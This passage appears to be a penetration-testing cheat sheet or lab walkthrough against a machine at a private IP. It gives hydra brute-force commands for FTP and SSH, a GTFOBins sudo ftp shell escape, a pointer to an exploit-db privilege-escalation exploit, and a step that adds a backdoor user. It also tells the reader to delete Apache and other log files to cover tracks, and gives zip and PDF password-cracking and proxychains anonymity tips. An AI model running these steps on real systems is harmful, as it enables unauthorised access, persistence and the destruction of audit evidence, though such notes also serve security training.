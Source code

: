 `cat passwd | grep /home | cut -d ':' -f 1`
: only will show usernames

`cat passwd | grep /home | cut -d ':' -f 1| tee users.txt`
: to save it into users text file

`hydra -L users.txt -e nsr ftp://192.168.1.35`

here we get all cracked passwords for users who used nsr
   - SSH : 22/tcp

Here we can try hydra on ssh ports

`hydra -L users.txt -e nsr ssh://192.168.1.35`

`ssh SHayslett@192.168.1.35`
 - passwd: SHayslett

### GTFOBins

GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. -- <https://gtfobins.github.io>

Ex. Search for sudo ftp permissions
 - sudo ftp
 - !/bin/sh

For escalating privilege repeat these steps

Use exploit exploit-db.com/exploits/39772

Dwnld > extract > and commands > XD root@red

   - Maintain Access in the target machine

You can add user by creating

 - adduser bobby
 - pswd: hacked
   - Covering Tracks

```shell
cd /var/log/apache2

cat access.log | grep '192.168'
```

 - this are the logs you have to delete related to u rip
 - rm access.log
 - or you can just simply delete all the log files present and get out

 - MORE TIPS:
   - Crack Zip passwd

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt <zipfile.zip>`

 - Crack PDF passwd

`pdfcrack -f <file.pdf> -w /usr/share/wordlists/rockyou.txt`

 - Proxy chaining (Become Anonymous)
   - Proxychains in Linux is another tool for anonymity providing anonymity and safe browsing with proxychains is easy. The proxychains works on socks4, socks5, HTTP, and https protocols.
   - locate proxychains

